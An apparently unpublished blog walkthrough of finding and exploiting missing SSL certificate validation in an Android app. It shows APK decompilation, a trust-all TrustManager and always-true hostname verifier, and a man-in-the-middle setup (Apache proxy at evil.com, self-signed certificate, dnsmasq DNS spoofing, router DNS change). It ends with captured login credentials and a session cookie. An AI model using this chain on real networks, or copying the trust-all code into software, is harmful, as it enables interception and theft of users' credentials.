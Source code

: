 ```yaml
---
published: false
---
```

I chose one application in Google Play to test. Its main functionalities were focused on consuming a RESTful web service. I decompiled this application using tools dex2jar and JD-GUI. Firstly I connected my phone to computer to get apk file

	$ adb pull /data/app/com.example.app-1.apk

Then I converted apk into jar and ran decompiler

	$ ./d2j-dex2jar.sh com.example.app-1.apk -o app.jar
	dex2jar com.example.app-1.apk -> app.jar

	$ java -jar jd-gui-1.4.0.jar app.jar

During code analysis I found some interesting piece which made me think that application doesn't verify SSL certificate.

	SSLContext sc = SSLContext.getInstance("TLS");
	sc.init(null, new TrustManager[] { new TrustAllX509TrustManager() }, new java.security.SecureRandom());
	HttpsURLConnection.setDefaultSSLSocketFactory(sc.getSocketFactory());
	HttpsURLConnection.setDefaultHostnameVerifier( new HostnameVerifier(){
    	public boolean verify(String string,SSLSession ssls) {
        	return true;
    	}
	});
	
	public class TrustAllX509TrustManager implements X509TrustManager {
    	public X509Certificate[] getAcceptedIssuers() {
        	return new X509Certificate[0];
    	}
	
    	public void checkClientTrusted(java.security.cert.X509Certificate[] certs,
        	    String authType) {
    	}
	
    	public void checkServerTrusted(java.security.cert.X509Certificate[] certs,
        	    String authType) {
    	}
	}
    
To prove it I ran Burp Suite and set up proxy on my phone. It was important to not install Burp's CA certificate. Web browser started to show warning when I was trying to load any page through HTTPS, but my application was connecing to web service without any problems.
I decided to exploit this vulnerability and peform Man-in-the-middle attack by setting up proxy between target's mobile device and web service.

I started with [proxy](https://github.com/mmmds/walkthroughs/blob/master/proxy.php) which was script written in PHP and ran on Apache. It passes requests to legitimate web service and returns response from it slightly modifying headers to make whole communication readable. Apache required rewriting rule to redirect every URL to this script and self-signed SSL certificate.

	<VirtualHost *:443>
		ServerName evil.com
		RewriteEngine on
		RewriteCond %{REQUEST_FILENAME} !-d
		RewriteCond %{REQUEST_FILENAME} !-f
		RewriteRule . /proxy.php [L]
		DocumentRoot /var/www/html
		SSLEngine on
		SSLCertificateFile "/tmp/server.cert"
		SSLCertificateKeyFile "/tmp/server.key"
	</VirtualHost>

Certificate was generated by

	$ openssl req -nodes -new -x509 -keyout server.key -out server.cert
    
Next step was to run dnsmasq - DNS server configured to return my proxy's IP for web service domain.
Configuration consists of two files, /etc/dnsmasq.conf

	addn-hosts=/etc/dnsmasq.hosts
	server=8.8.8.8
    
and /etc/dnsmasq.hosts

	192.0.2.1 example.com
    
	$ dnsmasq -C /etc/dnsmasq.conf
    
The last step was to change router's DNS to set up server's IP in administration panel. From that moment traffic from every device connected to attacker's WiFi was logged.

	$ cat /tmp/traffic
	POST /login HTTP/1.1
	Accept: text/plain, text/plain, application/json, */*, */*
	Content-Type: application/json
    User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.4.4; GT-I8160 Build/KTU84Q)
	Host: example.com
	Connection: Keep-Alive
	Content-Length: 53
    
    { "username": "user1", "password": "s3cr3tp4ssw0rd" }
    
    
    HTTP/1.1 200 200
	Server: nginx
	Date: Sat, 25 Feb 2017 20:47:29 GMT
	Content-Type: application/json
	Transfer-Encoding: chunked
	Connection: keep-alive
	Set-Cookie: JSESSIONID=A163B20D3696AF6185C07CD62EBA4B05
    



